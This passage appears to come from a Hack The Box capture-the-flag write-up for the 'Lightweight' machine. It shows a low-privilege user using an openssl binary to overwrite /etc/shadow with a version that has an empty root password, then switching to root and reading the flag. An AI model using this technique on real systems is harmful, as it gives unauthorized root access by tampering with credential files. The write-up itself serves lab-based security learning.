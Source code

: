 We probably can't crack the root hash because the HTB boxes typically have a very complex password for the root account but we can replace the shadow file with an empty root password:

```
[ldapuser1@lightweight ~]$ ./openssl aes-256-cbc -a -salt -in shadow -out shadow.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
[ldapuser1@lightweight ~]$ ./openssl aes-256-cbc -d -a -in shadow.enc -out /etc/shadow
enter aes-256-cbc decryption password:
[ldapuser1@lightweight ~]$ su -l root
Last login: Thu Dec  6 14:09:41 GMT 2018 on tty1
[root@lightweight ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@lightweight ~]# cat root.txt
f1d4e3...
```
